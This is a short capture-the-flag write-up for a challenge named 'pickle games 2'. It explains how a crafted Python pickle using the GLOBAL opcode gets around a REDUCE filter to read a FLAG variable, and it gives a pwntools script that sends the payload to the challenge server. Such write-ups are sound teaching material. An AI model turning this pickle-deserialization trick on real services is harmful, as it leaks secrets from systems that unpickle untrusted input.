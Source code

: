 # pickle games 2

## Write-up

`REDUCE` opcode is filtered, which means we cannot execute functions.
Though since the flag is being imported, we can just load it with the `GLOBAL` opcode using this payload:

```python
pickle.PROTO + b"\x04" + \
pickle.GLOBAL + b"__main__\nFLAG\n" + \
pickle.STOP
```

Full exploit script:

```python
#!/usr/bin/env python3

from pwn import *
import pickle

HOST, PORT, SSL = "pickle-games-2.challs.shellmates.club", 443, True

PAYLOAD = flat(
    pickle.PROTO + b"\x04",
    pickle.GLOBAL + b"__main__\nFLAG\n",
    pickle.STOP,
)

if __name__ == "__main__":
    io = remote(HOST, PORT, ssl=SSL)
    data = PAYLOAD.hex().encode()
    io.recvuntil(b"data: ")
    io.sendline(data)
    io.interactive()
```

[solve.py](solve.py)

